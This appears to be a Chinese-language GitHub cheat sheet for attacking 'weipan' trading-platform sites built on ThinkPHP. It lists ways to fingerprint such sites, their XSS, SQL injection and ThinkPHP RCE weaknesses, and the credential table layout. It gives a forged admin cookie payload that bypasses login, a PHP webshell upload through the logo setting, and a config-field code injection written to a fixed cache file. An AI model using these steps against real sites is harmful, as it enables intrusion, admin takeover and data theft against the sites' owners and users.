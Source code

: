 # weipan

---

微盘框架特征：

```
网站标题的图标默认是绿色的微字（也可以在浏览器历史记录中查看）
用户在前端登陆后访问的是伪静态页面，如good/pid/2/token/xxxxxxx.html
登陆页面：/passport/login/index/?lang=zh-cn
	     /index/login/login/token/xxxxxxxx.html

```

RCE：

```
1.用户注册填信息的地方存在xss,充值转帐姓名处存在xss
2.商品行情页面good/pid/2 存在sql注入
3.以thinkphp框架二次开发的框架，存在thinkphp的RCE
4.thinkphp的日志泄露，搜索error可能找到sql注入的地方
5.其他漏洞：https://www.cnblogs.com/-qing-/p/10693139.html
6.session包含getshell （需要配合tp5rce的文件包含）
	/index/goods/goods?fid=一句话  #写入session里面
```

基本信息

```
表名：
|-wp_userinfo  #用户表，管理员和用户信息存放的表
|--username用户名
|--upwd 密码md5
|--utime 注册时间戳，默认upwd是密码+utime的md5（具体需要看后台登陆页面是怎么校验登陆的）
|--otype 3为管理员，4为平台用户
|-wp_whitelist  # 可以设置白名单IP访问后台
设置域名白名单访问：一般可以通过不用域名访问目标站点，但是只能通过一个域名访问目标站点后台
/Application/Common/Conf/site.php
'siteurl' => 'xxx1.com',
'siteurlreg' => 'https://xxx1.com',  #  
'siteurladm' => 'admin.xxx1.com',  # 能访问后台的白名单域名
'appdownurl' => 'https://xxx2.com',  # app下载页面

```

后台登陆绕过登陆

- 教程：https://www.freebuf.com/articles/web/254396.html

- 将cookie中denglu参数改成（otype是权限，token是验证）

```
denglu=think:{"otype":"3","userid":"","username":"","token":"3c341b110c44ad9e7da4160e4f865b63"}
或者
denglu=think%3A%7B%22otype%22%3A%223%22%2C%22userid%22%3A%221%22%2C%22username%22%3A%22admin%22%2C%22token%22%3A%223c341b110c44ad9e7da4160e4f865b63%22%7D
```

后台get5he11 -1

- 教程：https://www.freebuf.com/articles/web/254396.html

```
/参数设置/基本设置/LOGO/选择文件/传php文件
通过源代码查看logo处可以看到路径，一般在public/uploads/20210101/md5.php（上传日期/文件md5）
```

后台get5he11 -2

- 教程：https://forum.90sec.com/t/topic/988

```
/参数设置/添加配置/依次输入test、test、test、文本、参数配置
/参数设置/参数设置/在test拦中输入 ：
---
 "
phpinfo();//
---
访问前端页面进行缓存刷新后直接访问：（固定路径文件）
/runtime/cache/3a/8e4c06e471595f6eb262bb9b5582d9.php

PS：如果没有参数设置，可能只是删除了导航，没有删除实际功能
后台路径一般为admin
可以直接访问/后台路径/setup/addsetup.html  添加配置
/后台路径/setup/deploy.html   # 删除参数页面
```

